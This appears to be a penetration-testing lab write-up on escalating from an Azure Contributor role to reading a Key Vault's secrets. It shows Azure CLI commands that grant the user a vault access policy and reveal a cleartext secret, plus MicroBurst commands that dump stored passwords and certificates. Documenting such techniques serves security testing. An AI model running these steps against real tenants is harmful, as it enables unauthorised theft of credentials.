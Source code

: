 # Azure Key Vault

## Azure Key Vault

Data may require additional credentials. Azure Key Vault can store all of them and also, maybe SSL 

The goal is to escalate Privileges as a Contributor to be able to read Owner's key vault.

* for testing purpose, 2 main groups :
  * SuperUsers = global admin
  * ContribUsers = reader user

![](../../../../.gitbook/assets/b583687f6c864c498af48e04ebb983a4.png)

Login with your "contribusers" account \(which is readers in azure AD\)

```csharp
PS C:\Users\b3v1l\Desktop> az login
```

![](../../../../.gitbook/assets/a826b454dc744202842a3be844ee883a.png)

And confirm successful login

![](../../../../.gitbook/assets/74ce848623344bce96df4dc612df88c5.png)

* List Key Vault 

```csharp
az keyvault list --query '[].name' --output tsv
```

* Try to retrieve data \(no access, permission denied\)

```csharp
az keyvault secret list --vault-name SuperSecretVault-kninsu --query '[].id' --output tsv
```

![](../../../../.gitbook/assets/5b3d14617ef343ba8dfb04b84f71d27e.png)

* Set permissions \(abusing contributor access\):

```csharp
az keyvault set-policy --name SuperSecretVault-kninsu --upn redacted@Redacted.onmicrosoft.com --secret-permissions get list --key-permissions get list --storage-permissions get list --certificate-permissions get list
```

![](../../../../.gitbook/assets/0f5fbabe9403445a9e015c7e826a915a.png)

* Try to retrieve URI Key Vault \(again\)

![](../../../../.gitbook/assets/5c58cb983d9945f3ac72919b9eedd720.png)

* Retrieve cleartext password

```csharp
az keyvault secret show --id <URI from last command> | ConvertFrom-Json
```

![](../../../../.gitbook/assets/d3ba559e5fb24b749d412de1e9710ee4.png)

### Powerzure microburst

* Automated process for password

```csharp
PS C:\Users\b3v1l\Desktop\tools\MicroBurst> Get-AllKeyVaultContents
```

* SSL/TLS Certificats

```csharp
Get-AzPasswords -ExportCerts Y
```

![](../../../../.gitbook/assets/573ac556d9534502a18ed68cef71cbae.png)




